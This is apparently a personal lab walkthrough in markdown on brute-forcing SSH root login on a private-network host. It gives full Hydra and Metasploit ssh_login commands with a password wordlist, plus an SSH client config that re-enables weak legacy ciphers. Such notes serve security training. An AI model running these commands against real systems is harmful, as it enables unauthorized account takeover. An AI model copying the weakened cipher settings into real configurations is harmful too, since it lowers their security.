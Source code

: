 
# Brute Force Attack


1. Use Hydra

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.68.6 -t 4 -V

```

I encountered an issue in running Hydra. First is the incompatibility with the cipher used, so I edited the /etc/ssh/ssh_config to accept old ciphers


![Alt](../../Images/usinghydra.png)

From https://medium.com/@sany4sec/ssh-error-in-hydra-while-brute-forcing-b148a61752e2 - I added the following key exchange

```
Host *  
  Ciphers +3des-cbc,aes128-cbc,aes192-cbc,aes256-cbc  
  KexAlgorithms +diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1,diffie-hellman-group14-sha1  
  HostKeyAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com  
  PubkeyAcceptedAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com
```

After that, it runs to Out of Memory Error. It turns out that I need to execute the steps here in this link. As it turns out, libssh doesn't support +,-,^ signs in the config. Luckily it's just been implemented upstream, on the master

https://www.kali.org/docs/general-use/ssh-configuration/

This setting can be changed easily using the `kali-tweaks` tool. Simply:

- Open a terminal and run `kali-tweaks`.
- From there, select the _Hardening_ menu.
- Now you can choose between **Strong Security** _(the default)_ and **Wide Compatibility**.

_Note: This is achieved by creating or deleting the configuration file `/etc/ssh/ssh_config.d/kali-wide-compat.conf`._

![Alt](../../Images/refissuehydra.png)


The end result

![Alt](../../Images/hydraresult.png)


==================================================

## Use the metasploit

1. Look for ssh login

```
msfconsole
```

```
search ssh login
```

You can see there the `11 auxiliary/scanner/ssh/ssh_login`

2. Select the `auxiliary/scanner/ssh/ssh_login`
```
use 11
```

3. Check options for settings
```
options
```

![Alt](../../Images/metasploitsshlogin.png)


4. We will set for now username as `root` and password as `pass_file(option from the options command) /usr/share/wordlists/metasploit/unix_passwords.txt
```
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
```
5. Set the RHOSTS
```
set rhosts 192.168.68.6
```
6. Set threads
```
set threads 10
```
8. execute `options` one more time to check the settings.

![Alt](../../Images/metasploitoptions.png)


9. Set verbose to true to check run logs
```
set verbose true
run
```

![Alt](../../Images/runmsf.png)
